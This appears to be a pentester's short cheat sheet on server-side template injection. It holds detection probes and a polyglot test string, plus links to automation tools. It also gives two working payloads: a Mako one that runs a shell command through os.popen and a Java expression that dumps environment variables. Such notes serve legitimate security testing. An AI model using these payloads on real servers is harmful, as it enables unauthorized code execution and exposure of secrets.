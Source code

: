 # Template Injection

```bash
${7*7}
#{7*7}
*{7*7}
${7*7}
~{7*7}
@{7*7}

```

- Python command injection automation tool [commix](https://github.com/commixproject/commix/)
	- SSTI automation PERFECT tool [Fenjing](https://github.com/Marven11/Fenjing/)
###### notes:
- characters to find possible template injection `${{<%[%'"}}%\`
- use operator `*` instead of `+` because it might be treated as normal text and give false negative
- simple methodology to detect template engine 
![[Template-Injection-Technique.png]]
- rce in Mako template
```python
<% import os x=os.popen('id').read() %> ${x}
```
- extract all variables in java-based template
```java
${T(java.lang.System).getenv()}
```
- if no rce possible,try exploiting methods to perform arbitrary actions
- guide for [template injection](https://www.cobalt.io/blog/a-pentesters-guide-to-server-side-template-injection-ssti) techniques
- fuzzing list [PayloadAllTheThings](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/template-engines-expression.txt)
